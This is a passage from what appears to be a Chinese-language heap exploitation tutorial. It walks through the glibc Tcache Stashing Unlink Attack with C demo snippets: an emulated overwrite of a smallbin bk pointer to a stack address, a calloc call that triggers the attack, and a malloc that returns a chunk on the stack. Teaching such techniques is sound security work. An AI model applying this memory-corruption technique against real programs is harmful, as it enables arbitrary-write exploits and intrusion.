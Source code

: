 然后把 smallbin 中的 bk 指针改为一个栈地址

```bash
printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

//change victim->bck
/*VULNERABILITY*/
chunk_lis[2][1] = (unsigned long)stack_var;
/*VULNERABILITY*/
```

[![](assets/1698893371-b3abca4b266a831cadc2a72b35b168fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231021220029-31938108-701a-1.png)

用 calloc 触发 Tcache Stashing Unlink Attack

```bash
//trigger the attack
    printf("Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");
calloc(1,0x90);
```

[![](assets/1698893371-d2746820fe3295c49547a9ae440a174a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231021220037-36223962-701a-1.png)

可以看到将一个栈上的 fake chunk 置入了 unsortedbin 中

再 malloc 一次就可以在该地址分配一个 chunk

```bash
printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);
assert(target == &stack_var[2]);
```
